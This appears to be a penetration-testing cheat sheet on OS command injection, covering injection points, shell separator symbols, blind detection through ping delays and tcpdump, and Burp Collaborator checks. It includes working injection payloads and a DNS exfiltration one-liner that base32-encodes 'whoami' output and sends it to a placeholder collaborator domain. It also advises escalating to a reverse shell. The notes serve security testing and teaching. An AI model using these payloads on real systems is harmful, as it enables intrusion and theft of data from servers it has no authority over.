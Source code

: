 # Cmd Injection

## Where Would You Find Command Injection

* In the following places:
* Text boxes that take in input
* Hidden URLs that take input
* E.g. `/execute/command-name`
* Or through queries e.g. `/location?parameter=command`
* When using URLs, remember to URL encode the characters that aren’t accepted
* Hidden ports:
* Some frameworks open debug ports that take in arbitrary commands

### Overview

* Use command line symbols within the input to alter the executed command
* Pay close attention to functions within an application that tend to be performed by an OS command
* Two forms exist, blind command injection --> you do not see the returned output, and non-blind cmd injection --> the system command output gets returned back to you
* Ensure you use the proper system commands per the OS

```
cat vs type 
ping -c vs ping -n #ping -n causes an infinte ping loop in linux
ls vs dir
```

* Try to start with reading a world readable file&#x20;

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

## Non-Blind CMD Inj.

* At the most basic level:
* Use command line symbols within the input to alter the executed command
* Once you have identified a potential injection point, use command line symbols within the input to alter the executed command&#x20;

```
; | || & && > >>
```

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

* Once you have exploited non-blind cmd injection, escalate to a reverse shell.

### Blind CMD Injection

#### Identification

* ICMP and DNS are useful to determine blind cmd injection&#x20;

```
google.com; ping -c11 127.0.0.1 #server will hang for roughly 10 seconds
```

* Can also try to ping yourself, however many corporate environments have firewalls in place to stop this, so doesn't always mean blind cmd injection isn't taking place&#x20;
* Use `tcpdump` to capture the `icmp` echo requests.

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

* This proves blind cmd injection, escalate to reverse shell

### Burp Collaborator

* Launch Burp, and choose:

![](<../.gitbook/assets/image (1).png>)

```
Burp --> Burp Collaborator Client
Press --> "Copy to Clipboard" #to copy a randomly generated domain name
Execute your cmd injection
```

* Press `Poll Now` to see if the request came through&#x20;

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

* If the above worked, move down to Data Exfil section

### **Data Exfil via DNS and Burp Collaborator**&#x20;

* Once you have your Burp Collaborator Domain, try your command injection&#x20;

```
google.com; a=$(whoami|base32|tr -d =); nslookup $a.COLLAB_DOMAIN_NAME.com
```

* Press Poll now and you should have something returned like this:

```
O53XOLLEMF2GCCQ.323lijijf90304jklksjru43k23.oastify.com
```

* Then type the following in your local terminal&#x20;

```
echo -n O53XOLLEMF2GCCQ | wc -c
```

* If this fails as `Invalid Base32` add 1, or 2 equal signs at the end for padding

```
echo -n O53XOLLEMF2GCCQ= | base32 -d
#output:
www-data
```
